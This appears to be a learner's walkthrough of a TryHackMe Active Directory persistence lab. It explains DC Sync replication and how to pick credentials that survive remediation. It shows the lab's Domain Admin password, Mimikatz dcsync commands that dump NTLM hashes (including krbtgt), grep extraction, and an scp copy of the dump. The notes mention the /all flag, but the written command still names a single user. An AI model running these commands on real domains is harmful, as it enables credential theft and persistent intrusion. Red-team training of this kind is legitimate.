



Persistence Through Credentials
Congratulations weary traveler! After breaching AD, performing enumeration, and exploiting it all the way to the top (if you have done these AD networks in order), you have finally made it to the tavern of persistence. The hard work is over and it is now time for some fun. While AD persistence is still serious business, it is really not as stressful as the other phases. Here we can let our creativity flow free. So rest your weary bones in our tavern, get yourself a nice cup of tea and let's begin.
Together with your low-privileged credentials, you will be provided with Domain Administrator credentials. What luck! When discussing persistence techniques, you will use the privileged credentials to perform the persistence technique on your low-privileged credential set. Make a note of the following DA account:
Username: Administrator
Password: tryhackmewouldnotguess1@
Domain: ZA
Since we provide your with full access over the entire domain, we can't really hide any flags or force you to make sure you perform these persistence techniques yourself before answering the questions. It is however encouraged that you take your time to work through these methods, as they will pay dividends in return on a red team assessment when the blue team starts kicking you out.
The first and least reliable persistence technique that we will discuss is credentials. Several of the lateral techniques discussed in previous rooms would have resulted in the attacker gaining access to credentials. When using the word credentials, it can mean a username and password pair, but in the context of AD, even the password hash is sufficient for authentication through pass-the-hash techniques.
DC Sync
It is not sufficient to have a single domain controller per domain in large organisations. These domains are often used in multiple regional locations, and having a single DC would significantly delay any authentication services in AD. As such, these organisations make use of multiple DCs. The question then becomes, how is it possible for you to authenticate using the same credentials in two different offices?
The answer to that question is domain replication. Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronise information. This includes updated information such as the user's new password and new objects such as when a new user is created. This is why you usually have to wait a couple of minutes before you authenticate after you have changed your password since the DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.
The process of replication is called DC Synchronisation. It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller.
A popular attack to perform is a DC Sync attack. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.
Not All Credentials Are Created Equal
Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for. While we should always look to dump privileged credentials such as those that are members of the Domain Admins group, these are also the credentials that will be rotated (a blue team term meaning to reset the account's password) first. As such, if we only have privileged credentials, it is safe to say as soon as the blue team discovers us, they will rotate those accounts, and we can potentially lose our access.
The goal then is to persist with near-privileged credentials. We don't always need the full keys to the kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team look over their shoulder. As such, we should attempt to persist through credentials such as the following:
▪ Credentials that have local administrator rights on several machines. Usually, organisations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
▪ Service accounts that have delegation permissions. With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
▪ Accounts used for privileged AD services. If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.
When it comes to what credentials to dump and persist through, it is subject to many things. You will have to get creative in your thinking and take it on a case-by-case basis. However, for this room, we are going to have some fun, make the blue team sweat, and dump every single credential we can get our hands on!
DCSync All
We will be using Mimikatz to harvest credentials. SSH into THMWRK1 using the DA account and load Mimikatz:
lsadump::dcsync /domain:za.tryhackme.loc /user:lorraine.gill

You will see quite a bit of output, including the current NTLM hash of your account. You can verify that the NTLM hash is correct by using a website such as this to transform your password into an NTLM hash.
Link: https://codebeautify.org/ntlm-hash-generator
[I checked with the above website by converting the password i received in the credential website to NTLM hash & it matched]
This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz & instead of specifying our account, we will use the /all flag:
log cybex_dcdump.txt
lsadump::dcsync /domain:za.tryhackme.loc /user:lorraine.gill
This will take a bit of time to complete. Once done, exit Mimikatz to finalise the dump find and then you can download the <username>_dcdump.txt file. You can use cat <username>_dcdump.txt | grep "SAM Username" to recover all the usernames and cat <username>_dcdump.txt | grep "Hash NTLM" for all hashes. We can now either perform an offline password cracking attack to recover the plain text credentials or simply perform a pass the hash attack with Mimikatz.
scp za.tryhackme.loc\\Administrator@thmwrk1.za.tryhackme.loc:c:/\tools/\cybex_dcdump.txt .

We can examine the log file to get the credential dump.
Note:
For the krbtgt user, there is a user for both the child and parent domains. So you need to be specific and use krbtgt@za.tryhackme.loc as the username.
lsadump::dcsync /domain:za.tryhackme.loc /user:krbtgt@za.tryhackme.loc
